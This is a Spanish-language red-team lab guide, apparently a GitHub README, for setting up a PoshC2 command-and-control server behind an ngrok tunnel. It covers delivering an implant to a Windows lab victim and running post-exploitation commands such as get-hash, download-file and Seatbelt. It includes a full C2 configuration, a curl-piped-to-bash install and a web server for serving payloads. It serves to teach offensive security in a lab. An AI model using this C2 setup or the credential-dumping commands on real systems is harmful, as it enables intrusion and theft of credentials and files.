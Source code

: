 ## Lab3: C2 - PoshC2
![image](https://user-images.githubusercontent.com/50930193/180666195-537fb36c-88bf-4926-b0d4-fc18e36b06ab.png)

**Descripción**

El laboratorio tiene por objetivo, establecer un Centro de Comando y Control (C2) basado en PoshC2, ejecutar comandos de obtención de información post explotación 

- Para el desarrollo del laboratorio se requiere que el participante instale el PoshC2 siguiendo las indicaciones o desde la página oficial: https://poshc2.readthedocs.io/en/latest/
- Como víctima, se debe crear una instancia en AWS con sistema operativo Windows7 o Windows Server 2012R2 y estar dentro del dominio RTOOS.NET. **La instancia debe estar conectado a la vpn pública.**


### SOLUCIÓN:

- **Pre-requisito** (Tener Kali actualizado) si no se podrían presentar errores de dependencias:

   ```
   # Instalación en Kali 
   
   $ sudo apt update && sudo apt -y full-upgrade -y
   ```

- **Instalación** Instalar PoshC2 en el equipo que ejecuta Kali Linux mediante la siguiente línea de comandos :

   ```
   # Instalación en Kali (disponible desde el 14 de Julio del 2022): 
   $ sudo apt install posch c2
   
   # Instalación de manera local: 
   $ curl -sSL https://raw.githubusercontent.com/nettitude/PoshC2/master/Install.sh | sudo bash

   # Instalación en docker:
   $ apt install docker docker.io
   ```
   
- Instalar las dependiencias y configurar lo necesario para ejecutar el C2
- Algunas confguraciones complementarias:
   ```  
   export PYTHONPATH=/usr/local/lib/python.38/dist-packages/
   ```
   
  Para el error de apy_pkg
    ```
    cd  /usr/lib/python3/dist-packages
    ls -la /usr/lib/python3/dist-packages
    sudo cp apt_pkg.cpython-36m-x86_64-linux-gnu.so apt_pkg.so
    ```
    
  Para el dotnet
    
    ```
    wget http://ftp.us.debian.org/debian/pool/main/i/icu/libicu57_57.1-6+deb9u4_amd64.deb
    sudo dpkg -i libicu57_57.1-6+deb9u4_amd64.deb
    sudo apt install dotnet-sdk-2.2
    
    $ dotnet --version
    ```
    
- Cuando todo esté instalado correctamente, confgurar el servidor C2, considerando ngrok como proxy o tunnel 
- En el parametro PayloadCommsHost se deberá  reemplazar por la url de ngrok
   ```
   # ngrok http 8080
   ```
      
- Para configurar el PoshC2 ejecutar: `posh-config`

  Ejemplo de configuración de PoshC2:

```
  # These options are loaded into the database on first run, changing them after
  # that must be done through commands (such as set-defaultbeacon), or by
  # creating a new project

  # Server Config
  BindIP: '0.0.0.0'
  BindPort: 8080

  # Database Config
  DatabaseType: "SQLite" # or Postgres
  PostgresConnectionString: "dbname='poshc2_project_x' port='5432' user='admin' host='192.168.111.111' password='XXXXXXX'" # Only used if Postgres in use

  # Payload Comms
  PayloadCommsHost: "http://f3a1-2001-1388-70c5-cc21-cd1d-168c-c3ae-7880.ngrok.io" # "https://www.domainfront.com:443,https://www.direct.com"
  DomainFrontHeader: ""  # "axpejfaaec.cloudfront.net,www.direct.com"
  Referrer: ""  # optional
  ServerHeader: "Apache"
  UserAgent: "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36"  # This should be updated to match the environment, this is Chrome on 2020-03-2

  DefaultSleep: "5s"
  Jitter: 0.20
  KillDate: "2999-12-01"  # yyyy-MM-dd
  UrlConfig: "urls" # Beacon URLs will be taken from resources/urls.txt if value is 'urls'. If value is 'wordlist' beacon URLs will be randomly generated on server creation from resources/wordlist.txt

  # Payload Options
  PayloadStageRetries: true
  PayloadStageRetriesInitialWait: 60 # Stager will retry after this many seconds, doubling the wait each time if it fails
  PayloadStageRetriesLimit: 30 # Stager retry attempts before failing
  DefaultMigrationProcess: "C:\\Windows\\system32\\netsh.exe"  # Used in the PoshXX_migrate.exe payloads
  PayloadDomainCheck: "" # If non-empty then the UserDomain on the target will be checked and if it 'contains' this value then the payload will execute, else it will not.

  # Notifications Options
  NotificationsProjectName: "PoshC2"
  EnableNotifications: "No"

  # Pushover - https://pushover.net/
  Pushover_APIToken: ""
  Pushover_APIUser: ""

  # Slack - https://slack.com/
  Slack_BotToken: "" # The token used by the application to authenticate. Get it from https://[YourSlackName].slack.com/apps/A0F7YS25R (swap out [YourSlackName]). Should start with xobo-.
  Slack_UserID: "" # Found under a users profile (i.e UHEJYT2AA). Can also be "channel". 
  Slack_Channel: "" # i.e #bots

  # SOCKS Proxying Options
  SocksHost: "http://127.0.0.1:49031"

  # PBind Options
  PBindPipeName: "jaccdpqnvbrrxlaf"
  PBindSecret: "mtkn4"

  # FComm Options
  FCommFileName: "C:\\Users\\Public\\Public.ost"
```

- En una ventana de terminal ejecutar el servidor : 
     ```
     posh-server
     ```
     
- En otra ventana o pestaña de terminal ejecute el cliente o Implant Manager : 
     ```
     posh
     ```
     
  Le solicitará colocar un nombre de usuario.


- Para efectos de este laboratorio, el instructor ejecutará un payload que permitirá desplegar un implante que generará una conexión reversa hacia el PoshC2 Server o el participante puede tener acceso al host victima para realizar la transferncia del implante.

- Una alternativa para la transferencia del payload es utilizar un servidor web creado en la carpeta donde se almacenan los implantes (/opt/PoshC2_Project/payloads) :

```
    python -m SimpleHTTPServer 80
```
  	
- De forma ordenada, el participante deberá comunicar al instructor su dirección IP para que él descargue y ejecute el payload desde la maquina victima. De esta forma, recibirá una conexión reversa en su PoshC2 Server y tendrá su primer implante establecido.

- Otra opción es ejecutar el comando de powershell en base 64.

- En el Implant Handler y en la consola del C2 Server se podrá ver la información del implante que se ha conectado y esta disponible.

- Para interactuar con ese implante desde el Implant Handler, seleccionar el implante por su ID (verifique que sea el que corresponda al mismo que apareció en la consola del C2 Server).

- Ejecute algunos o todos los siguientes comandos además del comando help que le permitirá conocer lo que incluye Posch C2 Server por default :

```
    ls
    pwd
    get-implantworkingdirectory
    cd c:\users\xxxx 
    download-file Tropheo.txt
    get-computerinfo
    get-netstat
    get-pid
    ps
    find-allvulns
    invoke-allchecks
    get-MpPreference
    Get-LocalGroupMember Administrators
    get-hash
    loadmodule SeatBealt.ps1
    seatbelt
```
    
- Antes de culminar, vuelva al primer nivel del Implant Manager para obtener información del C2 Server y un reporte de actividades :

```
    back
    show-serverinfo
    generate-reports
```
    


*============FIN DE DOCUMENTO===============*




